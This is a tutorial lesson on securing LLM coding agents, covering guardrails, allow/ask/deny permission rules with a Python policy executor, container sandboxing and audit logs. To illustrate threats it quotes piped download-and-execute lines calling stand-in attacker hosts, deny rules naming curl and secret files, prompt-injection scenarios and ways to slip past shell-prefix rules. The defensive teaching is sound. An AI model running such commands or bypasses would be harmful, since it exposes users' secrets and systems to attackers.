



In [Agent Security & Prompt Injection](agent-security.html) we reached an uncomfortable conclusion: you cannot make a language model reliably refuse every malicious instruction it reads. So what *do* you do? You do what security engineers have always done with components they can't fully trust: you surround them with **controls that don't depend on the component behaving well**.

A coding agent that can run shell commands is, from a security standpoint, *remote code execution as a service*. That's not a criticism — it's exactly what makes it useful. The engineering question is how to let it run `pytest` and `npm install` a thousand times a day while ensuring that the one time it's tricked into running `curl attacker.example | sh`, nothing bad happens: no secrets leak, no production system is touched, nothing persists.

This lesson is the practical toolkit: **guardrails** that screen what goes in and comes out, **permission systems** that decide which actions run, and **sandboxes** that contain whatever runs anyway. Along the way we'll build a policy-checked tool executor in Python and a hardened `docker run` invocation you can adapt.

## Defense in Depth

**Defense in depth** means stacking independent layers so that an attack must defeat *all* of them. It's often pictured as the "Swiss cheese model": each slice has holes, but holes rarely line up.

For agents, the layers are:

| Layer | Question it answers | Examples | Nature |
|---|---|---|---|
| Model | Does the model itself resist misuse? | Safety training, instruction hierarchy | Probabilistic |
| Input guardrails | Should this input reach the model? | Moderation, injection classifiers, PII detection | Probabilistic |
| Output guardrails | Should this output reach the user or a tool? | Policy checks, PII redaction, schema validation | Mixed |
| Action guardrails | Is this specific tool call permitted? | Allow/ask/deny rules, policy engines, hooks, rate limits | Deterministic |
| Sandbox | If it runs, what can it touch? | Containers, gVisor, microVMs, egress allowlists | Deterministic |
| Monitoring & audit | Did something bad happen, and can we prove what? | Audit logs, anomaly alerts, kill switches | Detective |



Notice the "Nature" column. The upper layers are **probabilistic**: classifiers and models with error rates. The lower layers are **deterministic**: a container with no network route cannot exfiltrate over the network no matter how persuasive the injected prompt. A good design puts your hardest guarantees in the deterministic layers and uses probabilistic layers to reduce noise and catch problems early.

> [!KEY] Put guarantees where the model can't argue with them
> A guardrail that is itself an LLM can be manipulated by the same text it's inspecting. A Linux namespace, a network policy or a permission rule evaluated in plain code cannot. Use probabilistic guardrails to reduce how often bad things are *attempted*; use deterministic controls to bound what happens when they are.

## Input Guardrails

**Input guardrails** inspect content *before* the model acts on it. That includes the user's message and, crucially for agents, tool results and retrieved documents.

- **Content moderation**: classify inputs against harm categories (violence, sexual content involving minors, self-harm, etc.). Most providers offer moderation endpoints or built-in safety systems; many apps add their own.
- **Jailbreak and injection classifiers**: small, fast models trained to recognize attempts to override instructions. Run them on *tool outputs* as well as user turns, since indirect injection arrives through tools.
- **PII detection**: find names, emails, phone numbers, card numbers or health data, then mask, tokenize or block them before they reach a third-party model or a log. Tools range from regex plus checksum validation (Luhn for card numbers) to NER-based libraries like Microsoft Presidio.
- **Topic scoping**: keep a narrow agent on task. A banking support agent can decline requests to write poetry or discuss competitors. Implement with a cheap classifier or a fast model call returning an enum.

### Placement and latency

Every guardrail adds latency and cost. Common tactics:

- **Run in parallel** with the main model call and cancel the response if the guardrail trips. The OpenAI Agents SDK, for example, models this as guardrails with a "tripwire" that halts the run.
- **Tier your checks**: regex and allowlists first (microseconds), small classifiers next (milliseconds), LLM judges only for ambiguous cases.
- **Fail closed for high-stakes paths** (if the injection classifier is down, don't let browsing results reach an agent with payment tools) and **fail open for low-stakes ones** (a topic classifier outage shouldn't break a FAQ bot).

> [!WARNING] Classifier scores are not verdicts
> An injection classifier with a 1% false-negative rate still lets through one in a hundred attacks, and attackers get unlimited tries. It will also flag legitimate content — a security wiki page *about* prompt injection looks a lot like an attack. Route detections to logging, quarantine or human confirmation, and tune thresholds on your own traffic.

## Output Guardrails

**Output guardrails** inspect what the model produces before it reaches a user, a downstream system or a tool.

- **Policy checks**: does the response violate content policy, make commitments the business can't honor ("I've approved your refund" when it can't), or give regulated advice? Often a classifier or a rubric-graded LLM judge.
- **PII and secret redaction**: scan for credentials (API-key patterns, private-key headers, high-entropy strings), internal hostnames and personal data before text leaves the system. This is also an *exfiltration* control.
- **Groundedness checks**: for RAG and research agents, verify each claim is supported by a retrieved source — using an entailment (NLI) model or an LLM judge that checks claims against citations. Unsupported claims get removed, flagged or sent back for revision. See [RAG & Retrieval](rag-and-retrieval.html).
- **Schema validation**: every tool call and structured output is validated against a schema *in code*, regardless of whether the model was constrained. Reject or repair invalid output rather than passing it on. [Structured Outputs](structured-outputs.html) covers constrained decoding, which makes this cheap.
- **Safe rendering**: escape HTML, neutralize markdown images and links to unknown domains, and never `eval` model output. This is OWASP's "Improper Output Handling."

## The Guardrail Toolbox

You rarely need to build classifiers from scratch. As of 2026, the common building blocks are:

| Tool | What it is | Typical use |
|---|---|---|
| **Llama Guard** (Meta) | Open-weight LLMs fine-tuned to classify prompts and responses against a hazard taxonomy | Self-hosted input/output moderation |
| **Prompt Guard** (Meta) | Small open classifier for jailbreak and injection detection | Screening user turns and tool results |
| **NeMo Guardrails** (NVIDIA) | Open-source toolkit; define "rails" (input, output, dialog, retrieval, execution) in a DSL called Colang | Programmable conversational guardrails |
| **Guardrails AI** | Python framework with a hub of validators (PII, toxicity, regex, schemas) that can re-ask the model on failure | Output validation pipelines |
| **Constitutional Classifiers** (Anthropic) | Input and output classifiers trained on synthetic data generated from a natural-language "constitution" of allowed and disallowed content | Blocking universal jailbreaks for high-risk domains (e.g., CBRN) |
| **Provider moderation services** | Hosted endpoints such as OpenAI's moderation API and Azure AI Content Safety (including Prompt Shields) | Quick, managed classification |

These evolve quickly; check current documentation for model versions and categories. The design principles are stable: know what each tool detects, measure its precision and recall on your data, and treat it as one layer.

## Action-Level Guardrails

This is where agent security diverges most from chatbot safety. The most important question isn't "is this text harmful?" but "**should this tool call with these arguments run right now?**"

### Permission systems: allow, ask, deny

A **permission system** maps each proposed tool call to one of three outcomes:

- **Allow**: run without asking (read a file in the workspace, run the test suite).
- **Ask**: pause and request human approval (push to a remote, send an email, install a package).
- **Deny**: never run, and tell the model it was blocked (read `.env`, `rm -rf`, access the cloud metadata endpoint).

Rules match on the tool name and its arguments, usually with **glob patterns**. Claude Code, for example, configures this in `settings.json` with rule lists like the following (syntax as of 2026; check current docs):

```json
{
  "permissions": {
    "allow": ["Bash(npm run test:*)", "Read(./src/**)"],
    "ask": ["Bash(git push:*)", "WebFetch"],
    "deny": ["Read(./.env)", "Read(./secrets/**)", "Bash(curl:*)"]
  }
}
```

Two precedence principles matter. First, **deny beats ask beats allow** — a specific deny must not be overridden by a broad allow. Second, **unmatched means ask (or deny)**, never allow. Secure defaults are the whole point.

### A policy-checked tool executor

Here is a self-contained executor implementing those semantics, plus the two subtleties that trip up real systems: **argument canonicalization** (so `../../.env` can't sneak past a rule for `.env`) and **shell metacharacters** (so `git status; curl evil` can't match an allow rule for `git status*`). Every decision goes to a hash-chained, append-only audit log.

```python
import fnmatch, hashlib, json, os, shlex, time
from dataclasses import dataclass
from typing import Any, Callable, Literal

Verdict = Literal["allow", "ask", "deny"]
SHELL_META = set(";|&$`<>()\n")

@dataclass(frozen=True)
class Rule:
    tool: str            # glob on tool name, e.g. "fs_*"
    arg: str = "*"       # glob on the canonical argument string
    verdict: Verdict = "ask"

class PolicyExecutor:
    def __init__(self, rules: list[Rule], tools: dict[str, Callable[..., str]],
                 approve: Callable[[str, str], bool], workspace: str, audit_path: str,
                 default: Verdict = "ask"):
        self.rules, self.tools, self.approve = rules, tools, approve
        self.workspace = os.path.realpath(workspace)
        self.audit_path, self.default = audit_path, default
        self.prev_hash = "0" * 64

    def canonical(self, tool: str, args: dict[str, Any]) -> tuple[str, bool]:
        """Return (canonical arg string, force_ask)."""
        if "path" in args:  # resolve symlinks and '..' so rules see the real target
            real = os.path.realpath(os.path.join(self.workspace, args["path"]))
            inside = real == self.workspace or real.startswith(self.workspace + os.sep)
            return real, not inside               # anything outside the workspace: ask
        if "command" in args:
            cmd = args["command"]
            if SHELL_META & set(cmd):             # chaining/substitution defeats prefix rules
                return cmd, True
            return " ".join(shlex.split(cmd)), False
        return json.dumps(args, sort_keys=True), False

    def decide(self, tool: str, arg: str, force_ask: bool) -> tuple[Verdict, Rule | None]:
        hits = [r for r in self.rules
                if fnmatch.fnmatchcase(tool, r.tool) and fnmatch.fnmatchcase(arg, r.arg)]
        for level in ("deny", "ask", "allow"):    # deny > ask > allow
            for r in hits:
                if r.verdict == level:
                    return ("ask" if level == "allow" and force_ask else level), r
        return self.default, None

    def audit(self, **event: Any) -> None:
        event |= {"ts": time.time(), "prev": self.prev_hash}
        line = json.dumps(event, sort_keys=True)
        self.prev_hash = hashlib.sha256(line.encode()).hexdigest()  # tamper-evident chain
        with open(self.audit_path, "a") as f:
            f.write(line + "\n")

    def run(self, tool: str, args: dict[str, Any]) -> dict[str, Any]:
        arg, force_ask = self.canonical(tool, args)
        verdict, rule = self.decide(tool, arg, force_ask)
        if verdict == "ask":
            verdict = "allow" if self.approve(tool, arg) else "deny"
        self.audit(tool=tool, arg=arg, verdict=verdict, rule=rule and rule.__dict__)
        if verdict == "deny" or tool not in self.tools:
            return {"content": f"Blocked by policy: {tool}({arg})", "is_error": True}
        try:
            return {"content": self.tools[tool](**args), "is_error": False}
        except Exception as e:                    # tool failures go back to the model
            return {"content": f"{type(e).__name__}: {e}", "is_error": True}
```

Wiring it into a manual agent loop (see [Tool Use](tool-use.html)) is one line per tool call — the returned dict becomes a `tool_result` block:

```python
rules = [
    Rule("read_file", "*/.env*", "deny"),
    Rule("read_file", "*/secrets/*", "deny"),
    Rule("read_file", "*", "allow"),           # in-workspace reads are fine (outside forces ask)
    Rule("bash", "pytest*", "allow"),
    Rule("bash", "git push*", "ask"),
    Rule("bash", "curl *", "deny"),
]
executor = PolicyExecutor(rules, tools={"read_file": read_file, "bash": run_bash},
                          approve=lambda t, a: input(f"Allow {t}: {a}? [y/N] ") == "y",
                          workspace="./repo", audit_path="audit.jsonl")

# Inside the loop, for each tool_use block in response.content:
result = executor.run(block.name, block.input)
tool_results.append({"type": "tool_result", "tool_use_id": block.id, **result})
```

Returning a denial as an `is_error` result (rather than crashing) matters: the model learns the action was blocked and can choose another approach or explain to the user.

> [!WARNING] Command-string rules are a weak boundary
> Pattern-matching shell strings is inherently leaky. `python -c "..."`, `npm test` running an attacker-modified `package.json`, or `git` with a malicious config hook can all do arbitrary things while matching an "allowed" prefix. Permission rules reduce risk and prompts; the **sandbox** is what actually contains a command once it runs.

### Policy engines

As rules grow, move them out of application code into a **policy engine** — a dedicated evaluator for declarative policies such as **Open Policy Agent** (Rego language) or **Cedar** (AWS's open-source policy language). Benefits: policies are versioned and reviewed like code, tested independently, shared across services, and can use rich context (user role, time of day, data classification, how many refunds this session has issued). CaMeL-style information-flow policies from the [security lesson](agent-security.html) are a more powerful version of the same idea.

### Hooks

**Hooks** are user-defined code that runs at lifecycle points in the agent loop. In Claude Code, for instance, a `PreToolUse` hook receives the proposed tool call as JSON and can block it (by exiting with code 2, with stderr fed back to the model), and a `PostToolUse` hook can inspect results — say, scanning a fetched web page for injection patterns, or running a linter after every file edit. The Claude Agent SDK and other frameworks expose similar callbacks. Hooks let teams enforce organization-specific policy without modifying the agent itself.

### Rate limits and spend caps

Some harms come from *volume*, not any single action:

- **Rate limits per tool**: at most N emails per hour, M API writes per minute. Bounds damage from a hijacked or looping agent.
- **Cumulative limits**: total refunds per session, total files deleted, total rows modified.
- **Spend caps**: token budgets per run, dollar caps per user per day, with hard stops (OWASP's "Unbounded Consumption"). See [Cost & Latency](cost-and-latency.html).
- **Step and time limits**: maximum agent iterations and wall-clock time, enforced by the harness (see [Reliability](reliability.html)).
- **Circuit breakers**: if error rates or denial rates spike, pause the agent and alert a human.

## Sandboxing

A **sandbox** is an execution environment that restricts what code running inside it can access. For agents that execute code or shell commands, the sandbox is the last and most important deterministic layer: it defines the blast radius when everything above it fails.

### The isolation spectrum

| Isolation | How it works | Strength | Overhead | Typical use |
|---|---|---|---|---|
| **Process-level** (seccomp, Landlock, bubblewrap, macOS Seatbelt) | OS restricts a process's syscalls, files and network | Moderate | Very low | Local coding agents on a dev machine |
| **Containers** (Docker, Podman) | Linux namespaces + cgroups; **shared host kernel** | Moderate; kernel bugs can allow escape | Low | Dev sandboxes, trusted-ish code |
| **gVisor** | A user-space kernel (the "Sentry") intercepts syscalls, so the host kernel exposes a much smaller surface | Strong | Moderate (syscall-heavy and I/O workloads slow down) | Multi-tenant code execution |
| **MicroVMs** (Firecracker, Cloud Hypervisor, Kata Containers) | Lightweight VMs with their own kernel on hardware virtualization; minimal device model | Very strong | Low-moderate; fast boot | Running untrusted code at scale |
| **Full VMs / separate machines** | Traditional virtualization or dedicated hosts | Strongest | Highest | Highest-risk workloads |

The key distinction is the **kernel boundary**. A standard container shares the host kernel, so a kernel vulnerability can become a container escape. gVisor puts a second, memory-safe kernel implementation in between; microVMs give each workload its own guest kernel behind a hypervisor. Firecracker was built by AWS to run Lambda and Fargate workloads, and several hosted agent-sandbox services build on microVMs for exactly this reason.

Local coding agents increasingly use lightweight OS-level sandboxing. Claude Code's sandbox mode, for instance, uses bubblewrap on Linux and Seatbelt on macOS to restrict filesystem writes to the project directory and route network traffic through a proxy that enforces a domain allowlist — letting the agent run more commands without permission prompts because the sandbox, not the prompt, bounds the risk.

> [!TIP] Rule of thumb
> If the code is *your* code run by *your* agent on *your* laptop, OS-level sandboxing or a hardened container is usually proportionate. If you run code influenced by untrusted users or content, in a multi-tenant service, use gVisor or microVMs.

### Filesystem scoping

- Mount **only** the working directory the task needs, never the home directory or `/`.
- Mount reference data **read-only**. Make the container's root filesystem read-only and give it a small `tmpfs` for scratch space.
- Keep secrets out of the filesystem entirely: no `.env`, no `~/.aws`, no `~/.ssh`, no Docker socket (mounting `/var/run/docker.sock` is equivalent to giving root on the host).
- Canonicalize paths in your tools (as in the executor above) so symlinks and `..` can't escape the scope.

### Network egress allowlists

Default to **no network**. When the task needs it, route all traffic through an **egress proxy** that allows specific domains (your package registry, `api.github.com`) and blocks everything else — including the **cloud metadata endpoint** (`169.254.169.254`), a classic way to steal cloud credentials from inside a VM. Allowlist by domain at an HTTP(S) proxy; avoid "allow all of `*.amazonaws.com`," since attackers can host content on broad shared domains too.

### Credential isolation via proxies

The most elegant pattern: **the agent never holds real secrets.** Requests leave the sandbox without credentials; a proxy outside the sandbox recognizes the destination and injects the right token.



Even a fully compromised agent cannot print, log or exfiltrate a token it never sees. The proxy is also the natural place to enforce per-host method restrictions (GET only), rate limits and logging. Combine with short-lived, narrowly scoped credentials (OAuth scopes, fine-grained tokens, per-task identities) so that even a leaked token is low-value.

### Resource and time limits

Cap CPU, memory, process count (fork bombs), disk, open files and wall-clock time. A runaway `while True` or a crypto miner should hit a wall, not your cloud bill. Enforce the timeout **outside** the sandbox so the code inside can't disable it.

### Ephemeral environments

Create a fresh sandbox per task (or per session) and destroy it afterward. **Ephemerality** prevents persistence — malware or a poisoned config file left behind can't affect the next run — and makes behavior reproducible. Snapshot images let you start in seconds with dependencies preinstalled. Persist only explicit outputs (a diff, an artifact) and review them before they flow anywhere important.

### A hardened `docker run`

Putting the pieces together for a container-based code sandbox:

```bash
# Ephemeral, unprivileged, read-only container with no network and hard resource limits.
# --runtime=runsc requires gVisor to be installed; drop that line to use plain runc.
docker run --rm \
  --runtime=runsc \
  --user 10001:10001 \
  --read-only \
  --tmpfs /tmp:rw,noexec,nosuid,size=256m \
  --mount type=bind,src="$PWD/task",dst=/work \
  --mount type=bind,src="$PWD/reference",dst=/reference,readonly \
  --workdir /work \
  --cap-drop ALL \
  --security-opt no-new-privileges \
  --pids-limit 256 \
  --memory 2g --memory-swap 2g \
  --cpus 2 \
  --ulimit nofile=1024:1024 \
  --network none \
  --env HOME=/tmp \
  agent-sandbox:1.4.2 \
  timeout --signal=KILL 600 python run_task.py
```

What each line buys you:

- `--rm` and a pinned image tag: ephemeral, reproducible; no state survives.
- `--runtime=runsc`: gVisor's user-space kernel between the workload and the host kernel.
- `--user 10001:10001`: not root inside the container.
- `--read-only` + `--tmpfs`: immutable root filesystem; scratch space that can't hold executables (`noexec`) and disappears.
- Bind mounts: only the task directory is writable; reference data is read-only; nothing else from the host is visible.
- `--cap-drop ALL` and `no-new-privileges`: no Linux capabilities and no privilege escalation via setuid binaries. Docker's default seccomp profile remains active.
- `--pids-limit`, `--memory`, `--cpus`, `--ulimit`: fork bombs, memory exhaustion and descriptor leaks hit hard ceilings.
- `--network none`: no exfiltration path at all.
- `timeout`: a wall-clock limit. For a stronger guarantee, also enforce a deadline from the orchestrator that runs `docker kill`.

When the task needs network access, replace `--network none` with a network created by `docker network create --internal agent-net` (no route to the outside), attach an egress-proxy container to both that network and the outside, and set `HTTPS_PROXY` in the sandbox to point at the proxy. The proxy then enforces the domain allowlist and injects credentials.

## Secure-by-Default Configuration

Most real incidents come from configuration, not exotic exploits. Make the safe path the default path:

- **Unmatched actions ask or deny.** Never ship a default-allow policy.
- **Narrow tool sets per agent.** Start with read-only tools; add write tools deliberately.
- **No ambient credentials.** Don't inherit the developer's shell environment, cloud CLI profile or SSH agent into the agent's process.
- **Network off unless needed**, then allowlisted.
- **Dangerous modes are loud.** If you offer a "skip all permissions" mode (as many coding agents do, for use inside disposable sandboxes), name it scarily, warn on use, and refuse to enable it outside an isolated environment where feasible.
- **Pin and verify dependencies**: model versions, MCP server versions, container image digests, package lockfiles.
- **Separate environments**: agents operate on dev/staging data and propose changes to production through reviewed channels (pull requests, change tickets), not direct writes. See [Deployment](deployment.html).

## Auditing

An **audit trail** answers, after the fact: *what did the agent do, why, on whose behalf, and with what authority?* Useful audit records include:

- Session ID, the human principal, the agent identity and version, model ID.
- Every tool call with canonicalized arguments, the policy verdict, the matching rule, and who approved "ask" decisions.
- Data provenance: which untrusted sources were in context when the call was made.
- Results (or hashes of large results) and errors.

Make logs **append-only and tamper-evident** (hash chaining as in the executor, or write-once storage), store them **outside the sandbox** where the agent can't edit them, and **redact secrets** before writing. Review them: periodic sampling, alerts on denied-action spikes, and post-incident replay. Audit trails are also the foundation for accountability and compliance, discussed in [Safety, Alignment & Governance](agent-safety-alignment.html). [Observability](observability.html) covers the tracing infrastructure.

## The Safety–Usefulness Trade-off

Every control has a cost. A permission prompt for every file read makes an agent safe and useless. A fully autonomous agent with your credentials is maximally useful until the day it isn't. The goal is not maximum restriction but **proportionate** restriction.

Practical guidance:

- **Match controls to reversibility and blast radius.** Reading files in a sandbox: allow. Editing files in a git-tracked workspace: allow (it's reversible). Pushing to `main`, sending external email, spending money: ask. Deleting backups, rotating credentials: deny or require out-of-band approval.
- **Prefer sandboxes over prompts.** Strong containment lets you *reduce* permission prompts safely, because a mistaken command inside a disposable, network-less sandbox is cheap. This is the direction many coding agents have moved.
- **Measure approval fatigue.** If users approve nearly every request without reading or changing it, your prompts are noise; promote those patterns to allow rules or tighten the sandbox so they're safe to allow.
- **Measure false positives.** A guardrail that blocks 5% of legitimate requests will be disabled by frustrated users. Track blocked-but-legitimate rates alongside attack catch rates.
- **Give the agent graceful paths.** When an action is denied, return a clear error so the model can adapt, ask the user, or explain — not loop.



> [!EXAMPLE] A coding agent, layered
> Model trained with an instruction hierarchy. Fetched web pages pass an injection classifier; hits are flagged in context and logged. Edits and test runs inside the project directory are auto-allowed; `git push` asks; reading `.env` is denied; a `PreToolUse` hook blocks commands touching production hostnames. Everything runs in an ephemeral gVisor container with the repo mounted, network limited to the package registry and GitHub via a credential-injecting proxy, a 2 GB memory cap and a 30-minute timeout. Every call lands in an append-only log. An injection that hijacks the model can, at worst, write bad code to a branch that a human reviews.

## Key Takeaways

- **Defense in depth**: stack independent layers — model, input guardrails, output guardrails, action guardrails, sandbox, audit — so attacks must beat all of them.
- Probabilistic layers (classifiers, LLM judges) reduce how often bad things are attempted; **deterministic layers** (permissions, sandboxes, network policy) bound the damage. Put your guarantees in the deterministic ones.
- Input guardrails must screen **tool results**, not just user messages; output guardrails should redact secrets and PII, check groundedness and validate schemas in code.
- Permission systems use **allow/ask/deny** with **deny-first precedence** and a non-allow default; canonicalize arguments and distrust shell strings with metacharacters.
- Policy engines, hooks, rate limits and spend caps extend action-level control to organization policy and volume-based harms.
- Sandbox strength follows the **kernel boundary**: containers share the host kernel; gVisor interposes a user-space kernel; microVMs give each workload its own kernel.
- Harden sandboxes with scoped and read-only mounts, no network or allowlisted egress, **credential injection by proxy**, resource and time limits, and ephemeral lifetimes.
- Calibrate controls to reversibility and blast radius; strong sandboxing is what lets you safely *reduce* permission prompts.

## Exercises

1. **Classify actions (easy).** For an agent that manages a small company's Google Workspace, list 15 plausible tool calls and assign each allow/ask/deny. Justify each using reversibility and blast radius. Which ones did you change your mind about?
2. **Break the executor (medium).** Using the `PolicyExecutor` above, try to read a denied file or run a denied command while staying inside allowed rules (hints: symlinks created by an allowed tool, environment variables, `python -c`, a `Makefile` target). Fix each bypass you find, and note which fixes belong in the executor versus the sandbox.
3. **Add a spend cap and rate limit (medium).** Extend `PolicyExecutor` with per-tool rate limits (e.g., `send_email` at most 5 per hour) and a session-level token budget that turns every verdict into "deny" once exceeded. Log the cap events to the audit trail and write a verification function that walks the hash chain and detects tampering.
4. **Build an egress-proxied sandbox (medium–hard).** Using Docker, create an internal network, a small forward proxy that allows only `pypi.org` and `files.pythonhosted.org`, and a sandbox container that can `pip install requests` but cannot `curl https://example.com`. Then add header injection for one API so the sandbox can call it without ever holding the key.
5. **Evaluate a guardrail (hard).** Assemble 200 benign tool outputs from your domain (including some that *discuss* prompt injection) and 100 injection attempts. Measure an open injection classifier's precision and recall at three thresholds. Decide which threshold you'd ship and what action (log, flag, block, ask) each score band triggers.

## Check Your Understanding

```quiz
Q: Why should the strongest guarantees in an agent's security design live in deterministic layers rather than LLM-based guardrails?
- [ ] LLM-based guardrails are too expensive to run in production
- [x] An LLM-based guardrail can be manipulated by the same untrusted text it inspects, whereas a network policy or permission rule cannot be argued with
- [ ] Deterministic layers have no false positives
- [ ] Regulators require deterministic controls
E: Classifiers and LLM judges are probabilistic and themselves susceptible to adversarial inputs. Sandboxes and permission checks in code enforce limits regardless of what the model was persuaded to do.

Q: A rule set contains allow "bash: git *" and deny "bash: git push *". The agent proposes `git push origin main`. With correct precedence, what happens?
- [ ] Allowed, because the allow rule appears first
- [ ] Asked, because the rules conflict
- [x] Denied, because deny takes precedence over allow
- [ ] Allowed, because the more general rule wins
E: Deny-first precedence ensures a specific prohibition can't be silently overridden by a broad allowance. Order in the file shouldn't matter.

Q: Why does the example executor force "ask" when a shell command contains characters like `;`, `|` or `$`?
- [ ] Those characters cause syntax errors in bash
- [x] Chaining and substitution let a command match an allowed prefix while executing something else entirely
- [ ] They indicate the model is hallucinating
- [ ] Glob patterns cannot contain those characters
E: `pytest; curl evil.example | sh` matches an allow rule for `pytest*`. Prefix-matching shell strings is only meaningful for simple commands; anything compound needs human review or a stronger sandbox.

Q: What is the main security difference between a standard Docker container and a Firecracker microVM?
- [ ] Containers cannot limit memory usage
- [ ] MicroVMs cannot run Linux workloads
- [x] Containers share the host kernel, while each microVM runs its own guest kernel behind a hypervisor
- [ ] Containers have no filesystem isolation
E: Kernel sharing means a kernel vulnerability can become a container escape. MicroVMs (and, differently, gVisor) put a much stronger boundary between untrusted code and the host kernel.

Q: What does credential injection via an egress proxy achieve?
- [ ] It encrypts the agent's tool calls
- [ ] It removes the need for network allowlists
- [x] The agent can use an API without ever seeing the secret, so a compromised agent cannot leak it
- [ ] It lets the agent choose which credentials to use per request
E: The proxy outside the sandbox adds the token only for allowlisted destinations. The secret never enters the agent's context, filesystem or memory.

Q: Users approve nearly every permission prompt from your coding agent without reading them. What's the best response?
- [ ] Add more prompts so users pay more attention
- [ ] Remove all prompts and allow everything
- [x] Strengthen sandboxing so routine actions are safe to auto-allow, and reserve prompts for genuinely consequential actions
- [ ] Require users to type the full command to approve
E: Approval fatigue turns prompts into noise. Containing routine actions in a sandbox lets you safely allow them, so the prompts that remain carry meaning.
```

## Further Reading

- [gVisor documentation](https://gvisor.dev/docs/) — architecture of the user-space kernel and its security model.
- [Firecracker](https://firecracker-microvm.github.io/) — AWS's microVM monitor; the design docs explain the minimal device model.
- [Docker Engine security](https://docs.docker.com/engine/security/) — capabilities, seccomp, user namespaces and rootless mode.
- [Llama Guard: LLM-based Input-Output Safeguard (Inan et al., 2023)](https://arxiv.org/abs/2312.06674) — the original Llama Guard paper and its taxonomy-driven approach.
- [NeMo Guardrails (Rebedea et al., 2023)](https://arxiv.org/abs/2310.10501) — programmable rails for LLM applications.
- [Constitutional Classifiers (Anthropic, 2025)](https://arxiv.org/abs/2501.18837) — defending against universal jailbreaks with constitution-trained classifiers, including large-scale red teaming.
- [Claude Code documentation](https://docs.anthropic.com/en/docs/claude-code/overview) — permission rules, hooks and sandboxing in a production coding agent.
- [Open Policy Agent](https://www.openpolicyagent.org/docs/latest/) — a general-purpose policy engine widely used for authorization decisions.
- [OWASP Top 10 for LLM Applications](https://genai.owasp.org/llm-top-10/) — especially Excessive Agency, Improper Output Handling and Unbounded Consumption.
